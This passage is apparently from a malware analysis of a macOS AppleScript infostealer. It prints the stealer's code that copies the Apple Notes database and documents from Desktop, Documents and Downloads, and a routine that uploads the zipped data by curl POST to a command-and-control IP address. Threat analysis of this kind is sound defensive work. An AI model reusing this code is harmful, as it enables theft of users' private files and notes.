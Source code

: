 ```
				set notesFolderPath to (path to home folder as text) & "Library:Group Containers:group.com.apple.notes:"
				set notesAccounts to folder (notesFolderPath & "Accounts:")
				try
					set notesFolder to folder notesFolderPath
					set notesFiles to {file "NoteStore.sqlite", file "NoteStore.sqlite-shm", file "NoteStore.sqlite-wal"} of notesFolder
					repeat with aFile in notesFiles
						try
							duplicate aFile to folder destinationFolderPath with replacing
						end try
					end repeat
				end try
			end try
			try
				set desktopFiles to every file of desktop
				set documentsFiles to every file of folder "Documents" of (path to home folder)
				set downloadsFiles to every file of folder "Downloads" of (path to home folder)
				repeat with aFile in (desktopFiles & documentsFiles & downloadsFiles)
					set fileExtension to name extension of aFile
					if fileExtension is in extensionsList then
						set filesize to size of aFile
						if (bankSize + filesize) < 10 * 1024 * 1024 then
							try
								duplicate aFile to folder destinationFolderPath with replacing
								set bankSize to bankSize + filesize
							end try
						else
							exit repeat
						end if
					end if
				end repeat
			end try
		end tell
	end try
end filegrabber
```

The malware can also be seen extracting the macOS system information including SPSoftwareDataType, SPHardwareDataType and SPDisplaysDataType and storing it into the `writemind` directory before compressing it into a ZIP file. Additionally, we can see the malware was retrieving the current logged-in user's username and setting up a temporary directory to store the extracted data (which was defined by `writemind`). This was most likely to slightly obfuscate itself by placing important variables near the end of the payload. After compressing the staging directory `writemind` into a ZIP file, the malware prepares the exfiltration process by sending the ZIP file to its C2 server using curl with a POST HTTP request. Finally, the malware covers its track by removing all of the extracted files and directories from the system.
```
on send_data(attempt)
 try
  set result_send to (do shell script "curl -X POST -H \"user: 97GIBXR2BA98-WeYnKwOKhLGAt0wMSQYmLRicLIb6OY=\" -H \"BuildID: /njKjyXgNqZG-iGLihnobhoWk1lCfo/-MEL9dSfa4ro=\" --max-time 300 —-retry 5 —-retry-delay 10 -F \"file=@/tmp/out.zip\" http://85.209.11.155/joinsystem")
 on error
  if attempt < 40 then
   delay 3
   send_data(attempt + 1)
  end if
 end try
end send_data
set username to (system attribute "USER")
set profile to "/Users/" & username
set randomNumber to do shell script "echo $((RANDOM % 9000 + 1000))"
set writemind to "/tmp/" & randomNumber & "/"
```